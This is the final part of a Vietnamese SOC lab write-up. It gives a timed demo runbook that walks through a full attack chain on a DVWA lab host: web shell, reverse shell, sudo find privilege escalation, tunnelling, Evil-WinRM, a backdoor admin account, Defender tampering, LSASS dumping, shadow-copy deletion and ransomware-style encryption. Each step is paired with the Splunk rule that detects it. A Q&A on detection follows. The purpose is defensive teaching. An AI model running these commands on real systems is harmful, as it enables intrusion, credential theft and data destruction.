## 12. Kịch Bản Diễn Tập và Trình Diễn SOC (Demo Runbook)

```
[00:00 - 05:00] BƯỚC 01: Kiểm tra kết nối và luồng log
                 ▶ Splunk: `index=* | stats count by index` (Đảm bảo 6 index đều có dữ liệu).

[05:00 - 10:00] BƯỚC 02: Trinh sát mạng từ Kali
                 ▶ Kali: `nmap -sV 192.168.50.20` và `nikto -h http://192.168.50.20/dvwa/`
                 ▶ Splunk: Kiểm tra `index=web_logs` nhận diện traffic quét.

[10:00 - 15:00] BƯỚC 03: Khai thác Web Shell và Reverse TCP
                 ▶ Kali: Upload `shell.php` và gửi payload Reverse Shell port 4444.
                 ▶ Splunk: Alert kích hoạt trên Rule 01 (Web Shell Access).

[15:00 - 20:00] BƯỚC 04: Cài đặt Cron Persistence
                 ▶ Web Shell: `crontab -e` thêm reverse shell.
                 ▶ Splunk: Alert kích hoạt trên Rule 02 (Cron Persistence).

[20:00 - 25:00] BƯỚC 05: Leo quyền Root qua Sudo Find
                 ▶ Web Shell: `sudo /usr/bin/find . -exec /bin/sh \; -quit`
                 ▶ Splunk: Alert kích hoạt trên Rule 03 (Sudo GTFOBins).

[25:00 - 30:00] BƯỚC 06: Đọc trộm file cấu hình
                 ▶ Root Shell: `cat /var/www/html/dvwa/config/config.inc.php`
                 ▶ Splunk: Alert kích hoạt trên Rule 04 (Sensitive Config Read).

[30:00 - 40:00] BƯỚC 07: Tải Chisel và Thiết lập Reverse SOCKS Tunnel
                 ▶ Kali: `./chisel server` | Web: `/tmp/chisel client`
                 ▶ Splunk: Alert kích hoạt trên Rule 05 (Tunneling và Ingress Tools).

[40:00 - 45:00] BƯỚC 08: Quét cổng nội bộ và Mở Socat Port Forward
                 ▶ Web: `socat TCP-LISTEN:5555...` | Kali: `proxychains nmap`
                 ▶ Splunk: Alert kích hoạt trên Rule 06 (Internal Reconnaissance).

[45:00 - 55:00] BƯỚC 09: Di chuyển ngang qua Evil-WinRM
                 ▶ Kali: `evil-winrm -i 192.168.50.20 -u svc_backup -p P@ssw0rd2026! -P 5555`
                 ▶ Splunk: Alert kích hoạt trên Rule 07 (WinRM Network Logon).

[55:00 - 60:00] BƯỚC 10: Tạo tài khoản quản trị ngầm 'backdoor'
                 ▶ Windows Shell: `net user backdoor ... /add` và `net localgroup administrators ...`
                 ▶ Splunk: Alert kích hoạt trên Rule 08 (Admin Account Creation).

[60:00 - 68:00] BƯỚC 11: Tắt Defender và Dump LSASS qua ProcDump Service
                 ▶ Windows Shell: `Set-MpPreference` và tạo `DumpService`
                 ▶ Splunk: Alert kích hoạt trên Rule 09 (Defender Tamper) và Rule 10 (LSASS Dump).

[68:00 - 75:00] BƯỚC 12: Xóa Volume Shadow Copies (VSS)
                 ▶ Windows Shell: `vssadmin delete shadows /all /quiet`
                 ▶ Splunk: Alert kích hoạt trên Rule 11 (VSS Deletion).

[75:00 - 80:00] BƯỚC 13: Thực thi mã hóa tống tiền hàng loạt
                 ▶ Windows Shell: Chạy script XOR Byte Encryption trên `C:\Users\Public\LabData`
                 ▶ Splunk: Alert kích hoạt trên Rule 12 (Mass File Encryption).

[80:00 - 90:00] BƯỚC 14: Tổng kết và Đánh giá trên RBA Master Dashboard
                 ▶ Splunk: Chạy Master Correlation Search (Mục 8) để hiển thị biểu đồ Risk Score
                 ▶ Kết quả: Tạo 1 Notable Event duy nhất kể lại toàn bộ câu chuyện tấn công đa tầng!
```

---

## 13. Bảng Hỏi - Đáp Chuyên Sâu Khi Bảo Vệ / Trình Bày (Presentation Defense và Q&A)

??? question "Q1: Tại sao Web Access Log chỉ bắt được request GET mà không bắt được nội dung POST body? Khắc phục thế nào?"

    - **Nguyên nhân**: Mặc định các web server (Apache/Nginx) chỉ ghi nhận HTTP Headers, URL Path và Query String trong `access.log` để tối ưu hóa I/O disk và tránh ghi nhận dữ liệu nhạy cảm của người dùng (như mật khẩu trong POST form).
    - **Giải pháp khắc phục**:
    1. Sử dụng module WAF như **ModSecurity** trên Apache để log chi tiết request body vào `audit.log`.
    2. Giám sát hành vi tiến trình con ở tầng OS (Auditd Execve / Sysmon for Linux) khi webshell sinh ra tiến trình thực thi lệnh hệ điều hành.


??? question "Q2: Giá trị `auid=4294967295` trong Auditd mang ý nghĩa gì trong điều tra số?"

    - **Ý nghĩa kỹ thuật**: `auid` (Audit User ID) bằng `4294967295` tương ứng với giá trị nhị phân `0xFFFFFFFF` (`-1` không dấu), đại diện cho trạng thái **"unset" (chưa đăng nhập)**.
    - **Ý nghĩa phát hiện**: Bất kỳ tiến trình nào chạy bởi service daemon (như Apache/PHP-FPM) hoặc sinh ra từ một cuộc tấn công từ xa (như Web Shell / RCE) đều mang `auid` unset vì chúng không trải qua quá trình xác thực đăng nhập qua PAM/SSH/Console. Do đó, nếu một tiến trình có `auid=4294967295` mà thực hiện đọc file cấu hình quản trị thì đây là chỉ số bất thường cực kỳ đáng tin cậy.


??? question "Q3: Tại sao cần áp dụng Risk-Based Alerting (RBA) thay vì alert độc lập từng rule?"

    - **Vấn đề thực tế**: Nếu bắn alert đơn lẻ cho 12 rules, một cuộc tấn công sẽ tạo ra hàng chục thông báo rời rạc, làm phân mảnh bối cảnh điều tra và dẫn đến **Alert Fatigue** (quá tải cảnh báo).
    - **Lợi ích của RBA**:
    1. Gán điểm rủi ro (*Risk Score*) cho từng thực thể (Entity: Host/User).
    2. Tự động tương quan nhiều giai đoạn tấn công khác nhau theo thời gian.
    3. Gom toàn bộ chuỗi tấn công thành **1 Notable Event duy nhất**, giúp SOC Analyst nắm bắt trọn vẹn câu chuyện tấn công (*Attack Story*) từ bước xâm nhập ban đầu đến đích cuối cùng.


??? question "Q4: Tại sao `GrantedAccess=0x1010` lại thường bị bỏ sót trong phát hiện LSASS Dumping?"

    - **Giải thích**: Nhiều SOC Analyst chỉ cấu hình bắt quyền tối đa `0x1fffff` (PROCESS_ALL_ACCESS) hoặc `0x1410`. Tuy nhiên, các kỹ thuật dump hiện đại (và một số biến thể Mimikatz/Dumpert) chỉ yêu cầu quyền tối thiểu `PROCESS_QUERY_LIMITED_INFORMATION` (`0x1000`) kết hợp với `PROCESS_VM_READ` (`0x0010`) $\rightarrow$ Tạo thành mask `0x1010`. Nếu luật phát hiện không bao gồm `0x1010`, kẻ tấn công có thể dễ dàng bypass hệ thống SIEM.


---

## 14. Tài Liệu Tham Khảo (References)

- **MITRE ATT&CK Framework Enterprise**: [https://attack.mitre.org/](https://attack.mitre.org/)
- **GTFOBins Curated Unix Binaries**: [https://gtfobins.github.io/](https://gtfobins.github.io/)
- **LOLBAS Windows Living Off The Land**: [https://lolbas-project.github.io/](https://lolbas-project.github.io/)
- **Splunk Enterprise Security RBA Guide**: [https://docs.splunk.com/Documentation/ES/latest/User/RiskBasedAlerting](https://docs.splunk.com/Documentation/ES/latest/User/RiskBasedAlerting)
- **SwiftOnSecurity Sysmon Configuration**: [https://github.com/SwiftOnSecurity/sysmon-config](https://github.com/SwiftOnSecurity/sysmon-config)
- **Obsidian Agent Skills Specification**: [https://github.com/kepano/obsidian-skills](https://github.com/kepano/obsidian-skills)
